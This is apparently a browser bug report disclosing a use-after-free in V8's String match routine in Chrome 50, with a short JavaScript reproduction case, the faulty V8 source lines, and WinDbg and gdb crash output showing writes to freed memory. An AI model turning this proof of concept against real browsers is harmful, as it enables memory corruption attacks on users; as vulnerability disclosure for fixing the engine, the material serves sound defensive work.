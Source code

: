<b>VULNERABILITY DETAILS</b>
"match" function with a very long string fails to properly allocate a memory, thus UAF occurs. 

<b>VERSION</b>
Windows Chrome 50.0.2661.87 32bit stable (V8 5.0.71.33)

<b>REPRODUCTION CASE</b>
--------------------------------
<script>
r2 = new RegExp("(?=)*", "g");
s0 = Array(220000700).join('a'); // the size could be different between v8 and chrome
result = s0.match(r2);
</script>
--------------------------------

<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>

runtime/runtime-strings.cc
 334 RUNTIME_FUNCTION(Runtime_StringMatch) {
..
 349   ZoneScope zone_scope(isolate->runtime_zone());
 350   ZoneList<int> offsets(8, zone_scope.zone());
 351
 352   while (true) {
 353     int32_t* match = global_cache.FetchNext();
 354     if (match == NULL) break;
 355     offsets.Add(match[0], zone_scope.zone());  // start <----------
 356     offsets.Add(match[1], zone_scope.zone());  // end
 357   }
..

"Add" method invocation tries to resize ZoneList when the length of offsets reaches the capacity, but there's no limitation check.

The reproduction code sometimes causes to copy to freed-memory in chrome.

0:000> u
0550020f f30f7f47f0      movdqu  xmmword ptr [edi-10h],xmm0
05500214 89fa            mov     edx,edi
05500216 83e20f          and     edx,0Fh
05500219 2bfa            sub     edi,edx
0550021b 2bf2            sub     esi,edx
0550021d 2bca            sub     ecx,edx
0550021f 89ca            mov     edx,ecx
05500221 c1ea06          shr     edx,6
0:000> dd edi
46018020  ???????? ???????? ???????? ????????
46018030  ???????? ???????? ???????? ????????

+ 447e0000 4c400000  7c20000             MEM_FREE    PAGE_NOACCESS

In d8 binary, string pointer is pointing one of elements of the offsets list.

v8::internal::Map::instance_type (this=0x240ec0c) at .././src/objects-inl.h:4268
4268      return static_cast<InstanceType>(READ_BYTE_FIELD(this, kInstanceTypeOffset));
(gdb) print this
$1 = (v8::internal::Map *) 0x240ec0c
(gdb) bt
#0  v8::internal::Map::instance_type (this=0x240ec0c) at .././src/objects-inl.h:4268
#1  0x08801ebf in v8::internal::HeapObject::IsString (this=0xf3708081) at .././src/objects-inl.h:164
#2  0x0886af5a in v8::internal::HeapObject::IsConsString (this=0xf3708081) at .././src/objects-inl.h:202
#3  0x0883347e in v8::internal::String::Flatten (string=..., pretenure=v8::internal::NOT_TENURED) at .././src/objects-inl.h:3421
#4  0x08c2831d in v8::internal::Factory::NewProperSubString (this=0xa1d2c38, str=..., begin=0, end=0) at ../src/factory.cc:597
#5  0x08e27ff0 in v8::internal::Factory::NewSubString (this=0xa1d2c38, str=..., begin=0, end=0) at .././src/factory.h:215
#6  0x093ed7b3 in v8::internal::__RT_impl_Runtime_StringMatch (args=..., isolate=0xa1d2c38) at ../src/runtime/runtime-strings.cc:372
#7  0x093ed256 in v8::internal::Runtime_StringMatch (args_length=3, args_object=0xffffd014, isolate=0xa1d2c38)
    at ../src/runtime/runtime-strings.cc:334
#8  0x2230b81c in ?? () 